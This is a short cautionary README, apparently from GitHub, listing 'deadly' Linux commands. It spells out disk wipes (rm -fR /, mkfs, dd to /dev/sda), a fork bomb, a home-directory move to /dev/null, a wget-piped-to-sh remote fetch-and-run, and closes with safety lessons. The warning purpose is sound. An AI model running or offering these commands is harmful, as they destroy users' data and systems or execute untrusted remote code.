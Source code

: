 Suicide Linux
============

*Simple list of deadly linux commands. All the Linux that nobody will teach you, but that you will experience in first person. At least one time in your life.*

## Warning!!
Most of the commands in this tutorial are **really dangerous**!!!
DO NOT use these commands on a real system if you have no idea of what you are going to do.


#### Wipeout!

`rm -fR /`

With this command you asking to delete every files in your disk. Your only hope is that some security control will denied you to do something so silly.


#### Fork Bomb

`:(){ :|: & };:`

Elegant and deadly as a dark-lady. This short shell script replicates itself until all the processing capabilities of your computer will be occupied. Shutdown and restart seems to be the only solution.


#### Format the Drive

`mkfs.ext4 /dev/sda1`

Do you remember `FORMAT C:` of the old DOS? this have the same result.

#### Right Time, but Wrong Place

`date > /dev/sda`

Redirecting will write raw bytes on your disk partition. What can never will be? nothing good! surely.


#### Collect Junk is a Dirty Job

`dd if=/dev/random of=/dev/sda`


#### Have to start again

`mv ~ /dev/null`

This command will move all your personal data in the Linux equivalent of a Black Hole.


#### Danger from the Outside

`wget http://example.com/something -O – | sh –`


#### No More Busy

`find / -name busybox -exec rm -f {} \;`

## Lessons Learned
* execute commands with root privileges only if it is strictly necessary
* beware from `rm -r` commands
* never handle partions handles (such as `/dev/sda1`)
* never execute untrusted content


## References
* [How to Geek](http://www.howtogeek.com/125157/8-deadly-commands-you-should-never-run-on-linux/)
